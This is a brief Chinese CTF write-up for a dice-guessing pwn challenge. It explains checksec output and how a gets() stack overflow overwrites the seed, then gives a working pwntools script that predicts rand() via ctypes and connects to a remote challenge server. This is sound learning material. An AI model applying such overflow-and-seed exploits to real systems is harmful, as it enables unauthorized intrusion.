

先checksec一下然后发现

Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled

这里启用了canary(栈保护)

用IDA64打开，然后反编译得到基本逻辑：首先从输入gets一个姓名，然后用种子初始化随机数发生器，対生成的随机数进行处理，然后再输入下一个整数，将随机数处理后的值与输入数值进行比较，如果10轮比较都相同则成功，随机调用sub_CE(),获得flag

查找V7的栈，发现



因此，只要栈溢出，将我们指定的值覆盖到seed的部分，然后借助ctypes调佣linux中c标准动态库libc.so.6,就可以破解伪随机数了

可以用ldd查看标准库

具体payload如下：

```python
from pwn import *
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
payload = b'a'*32 + p64(1)
p = remote("61.147.171.105", 51327)
libc.srand(1)
p.sendlineafter('name',payload)
for i in range(10):
    p.sendlineafter('number',str(libc.rand()%6 + 1))
p.interactive()

```

